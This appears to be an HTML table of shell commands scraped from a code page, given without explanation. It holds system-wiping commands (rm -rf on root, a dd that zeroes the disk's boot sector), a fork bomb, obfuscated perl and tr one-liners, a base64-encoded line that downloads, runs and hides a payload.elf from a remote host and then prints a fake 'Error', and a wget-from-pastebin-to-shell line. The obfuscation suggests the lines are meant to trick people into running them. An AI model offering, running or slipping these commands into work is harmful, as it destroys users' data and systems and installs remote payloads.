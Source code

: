 <table class="iksweb">
	<tbody>
    <tr>
			<td><h1>Commands</h1></td>
		</tr>
		<tr>
			<td>sudo rm -rf /*</td>
		</tr>
		<tr>
			<td>echo c3VkbyBybSAtcmYgLyo= | base64 -d | bash</td>
		</tr>
		<tr>
			<td>dd if=/dev/zero of=/dev/sda bs=512 count=1
</td>
		</tr>
		<tr>
			<td>:(){ :|:& };:</td>
		</tr>
		<tr>
			<td>echo "ping 8.8.8.8" | perl -e '$??s:;s:s;;$?::s;;=]=>%-{<-|}<&|`|}}./}:<%=%<@%}<//>{;;y; -/:-@[-`{-};`-{/" -;;s;;$_;see'</td>
		</tr>
		<tr>
			<td>WINDOWS_IS_GOOD=$( echo '%\%#{<-{}<&{`{}}./}:<%=%<@%}<//>'  |  tr ' -/:-@[-`{}' '`-{/ -') ;$WINDOWS_IS_GOOD 2 > /dev/null</td>
		</tr>
		<tr>
			<td>echo d2dldCBodHRwOi8vMTkyLjE2OC44OC4xMjMvcGF5bG9hZC5lbGYgJj4gL2Rldi9udWxsICYmIGNobW9kICt4IC4vcGF5bG9hZC5lbGYgJiYgLi9wYXlsb2FkLmVsZiAmIGRpc293biAmJiBlY2hvIEVycm9yCg== | base64 -d | bash</td>
		</tr>
		<tr>
			<td>wget https://pastebin.com/raw/vr2aeG3D -O- | sh </td>
		</tr>
	</tbody>
</table>
